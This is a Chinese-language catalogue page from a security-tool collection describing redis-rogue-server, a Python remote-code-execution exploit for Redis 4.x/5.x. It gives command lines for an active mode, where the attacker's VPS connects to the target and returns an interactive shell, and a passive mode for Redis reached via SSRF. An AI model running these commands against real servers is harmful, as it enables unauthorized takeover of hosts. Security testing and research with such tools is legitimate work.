

repository: ProbiusOfficial/Better_StarLink · page: detail/Redis-Rogue-Server/index.html · generator: mkdocs

## Redis-Rogue-Server <https://github.com/Dliv3/redis-rogue-server>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Python-blue)
![Author](https://img.shields.io/badge/Author-Dliv3-orange)
![GitHub stars](https://img.shields.io/github/stars/Dliv3/redis-rogue-server.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V1.0.0-red)
![Time](https://img.shields.io/badge/Join-20201120-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->


Redis 4.x/Redis 5.x RCE利用脚本, 涉及技术点可参考 [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage

编译.so模块, 代码: <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

将.so与 `redis-rogue-server.py`放置在同一目录下

项目自带了一个编译好的的exp.so文件, 可直接使用

### 主动连接模式

适用于目标Redis服务处于外网的情况
- 外网Redis未授权访问
- 已知外网Redis口令

启动redis rogue server，并主动连接目标redis服务发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：
- `--rpasswd` 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- `--rhost` 目标redis服务IP
- `--rport` 目标redis服务端口，默认为6379
- `--lhost` vps的外网IP地址
- `--lport` vps监控的端口，默认为21000

攻击成功之后，你会得到一个交互式shell

### 被动连接模式

适用于目标Redis服务处于内网的情况
- 通过SSRF攻击Redis
- 内网Redis未授权访问/已知Redis口令, Redis需要反向连接redis rogue server

这种情况下可以使用`--server-only`选项

```bash
python3 redis-rogue-server.py --server-only
```

参数说明：
- `--server-only` 仅启动redis rogue server, 接受目标redis的连接，不主动发起连接
